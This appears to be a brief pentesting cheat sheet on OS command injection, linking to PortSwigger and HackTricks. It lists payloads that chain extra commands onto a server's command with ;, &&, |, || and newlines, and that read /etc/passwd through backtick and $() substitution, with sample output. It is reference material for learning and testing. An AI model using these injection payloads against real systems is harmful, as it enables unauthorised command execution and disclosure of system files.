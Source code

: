 # Command Injection

{% embed url="https://portswigger.net/web-security/os-command-injection" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/command-injection" %}

#### Basic commands

Execute the command and voila :p

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

#### Chaining commands

```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail
```

Commands can also be run in sequence with newlines

```
original_cmd_by_server
ls
```

#### Inside a command

```
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```
